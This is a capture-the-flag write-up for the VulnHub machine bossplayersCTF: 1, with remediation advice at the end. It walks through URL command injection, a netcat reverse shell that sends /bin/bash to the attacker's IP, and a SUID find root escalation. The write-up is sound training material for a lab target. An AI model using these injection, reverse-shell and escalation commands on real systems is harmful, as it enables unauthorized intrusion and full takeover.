





# bossplayersCTF: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.107 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (Debian, Apache2, PHP) |
| **Author** | Cuong Nguyen |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/bossplayersctf-1,375/) |

## Attack Summary

Page source → multi-layer Base64 hidden path → `workinginprogress.php?cmd=` command injection → netcat reverse shell → SUID `find` → root

## Methodology

1. Network discovery and port scan
2. Page source analysis (hidden Base64-encoded path)
3. Command injection via `cmd` parameter
4. Reverse shell upgrade
5. SUID `find` privilege escalation

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.107
```

Ports open: 22 (SSH), 80 (HTTP / Rocket httpd)



---

## Step 2: Hidden Path via Multi-Layer Base64

Browse to `http://192.168.1.107/` and view page source. A commented Base64 string is embedded:

```bash
echo "VGhpcyBpcyBhIHNlY3JldCBtZXNzYWdlCg==" | base64 -d
# Repeat decoding layers until output is: workinginprogress.php
```



---

## Step 3: Command Injection

Browse to `http://192.168.1.107/workinginprogress.php?cmd=id` to confirm RCE:

```
http://192.168.1.107/workinginprogress.php?cmd=id
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The `cmd` parameter passes user input directly to the system shell (`ping`-style feature).



---

## Step 4: Reverse Shell

Start a listener:

```bash
nc -lvp 1234
```

Trigger the shell via the `cmd` parameter:

```
http://192.168.1.107/workinginprogress.php?cmd=nc%20-e%20/bin/bash%20192.168.1.105%201234
```

Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 5: Privilege Escalation — SUID find

```bash
find / -perm -u=s -type f 2>/dev/null
# /usr/bin/find has SUID set

find . -exec /bin/sh -p \; -quit
id
# uid=0(root)

cd /root && cat root.txt
```

The flag in `/root/root.txt` is Base64-encoded — decode it to read the congratulations message.



---

## Lessons Learned

1. **Hidden content in page source** — always view source and look for comments; Base64 strings are a common CTF hiding technique
2. **Unsanitized `cmd` parameter** — passing GET parameters directly to shell functions is critical RCE; use `escapeshellcmd()` or avoid shell calls entirely
3. **SUID on system binaries** — `find` with SUID allows trivial root escalation via `-exec`; GTFOBins documents dozens of these

## Remediation

| Vulnerability | Fix |
|---|---|
| Command injection in `cmd` parameter | Sanitize input; avoid system() calls; use parameterized alternatives |
| SUID on `/usr/bin/find` | Remove SUID: `chmod u-s /usr/bin/find` |
| Secrets in page source comments | Never embed encoded paths or credentials in HTML |
